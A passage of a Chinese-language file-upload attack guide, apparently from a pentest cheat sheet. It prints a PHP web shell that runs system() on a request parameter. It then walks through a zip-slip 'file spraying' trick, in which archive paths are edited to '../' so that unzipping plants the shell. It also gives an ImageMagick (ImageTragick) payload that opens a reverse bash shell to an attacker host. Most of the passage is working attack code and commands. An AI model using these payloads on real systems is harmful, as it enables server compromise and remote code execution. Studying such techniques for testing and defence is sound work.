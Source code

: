 ```php
<?php
  if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  }
?>
```

- 使用 “file spraying ” 生成一个压缩的文件

```shell
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# ls *.php
simple-backdoor.php  xxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAcmd.php           xxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAxxAcmd.php        xxAxxAxxAxxAxxAcmd.php  xxAxxAxxAxxAxxAxxAxxAxxAcmd.php
root@s2crew:/tmp# zip cmd.zip xx*.php
  adding: xxAcmd.php (deflated 40%)
  adding: xxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
  adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
root@s2crew:/tmp#

```
- 使用hexeditor 或 vi 改变“xxA” 为 “../"

下面以vi为例：
```
:set modifiable
:%s/xxA/..\//g
:x!
```
说明：%s表示从第一行到最后一行，也可以使用`:1,$s/xxA/..\//g`.替换命令语法为：`:n1,n2s/old_word/new_word/g`,n1为查找替换开始行，n2为查找替换结束行。

- 最后，上传zip文件（cmd.zip）到服务器，然后让应用提供的功能解压它。如果成功解压且web server有足够写权限，那么我们就可以使用这个webshell了。

参考：https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/

## 图片 tragic
如果web应用使用ImageMagick（一个创建，编辑，撰写，或转换位图图像的库），那么使用图片扩展名上传文件，可以利用ImageMagick 7.0.1-1 漏洞

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
## 将PHP shell嵌入PNG

